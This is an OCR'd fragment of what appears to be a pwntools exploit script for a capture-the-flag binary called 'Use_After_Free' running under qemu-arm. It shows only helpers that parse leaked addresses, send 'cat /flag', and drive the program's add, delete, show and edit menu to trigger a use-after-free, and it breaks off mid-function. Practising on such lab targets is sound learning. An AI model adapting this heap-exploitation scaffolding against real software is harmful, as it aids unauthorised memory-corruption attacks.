 ```
    elif False:
        sh = process(["qemu-arm", "-g", "2333", "-L", "/usr/arm-linux-gnueabihf", "./Use_After_Free"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else :
        return process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./Use_After_Free"])

def get_address(sh,arch_num=null,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif arch_num == 64:
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def creat(sh,Chunk_alias,Team,Desc):
    sh.recvuntil(': ')
    sh.sendline('add' + ' ' + Chunk_alias)
    sh.recvuntil('Team: ')
    sh.sendline(Team)
    sh.recvuntil('Desc: ')
    sh.sendline(Desc)

def delete(sh,index=null,Chunk_alias=null):
    sh.recvuntil(': ')
    if Chunk_alias != null:
        sh.sendline('del' + ' ' + Chunk_alias)
    else:
        sh.sendline('del')
        sh.recvuntil('Index: ')
        sh.sendline(str(index))

def show(sh,index=null,Chunk_alias=null):
    sh.recvuntil(': ')
    if Chunk_alias != null:
        sh.sendline('show' + ' ' + Chunk_alias)
    else:
        sh.sendline('show')
        sh.recvuntil('Index: ')
        sh.sendline(str(index))

def edit(sh,Team,Desc,Point,index=null,Chunk_alias=null):
    sh.recvuntil(': ')
    if Chunk_alias != null:
        sh.sendline('edit' + ' ' + Chunk_alias)
    else:
        sh.sendline('edit')
        sh.recvuntil('Index: ')
        sh.sendline(str(index))
        sh.recvuntil('Team: Team: ')
        sh.sendline(Team)
        sh.recvuntil('Desc: ')
        sh.sendline(Desc)
        sh.recvuntil('Points: ')
```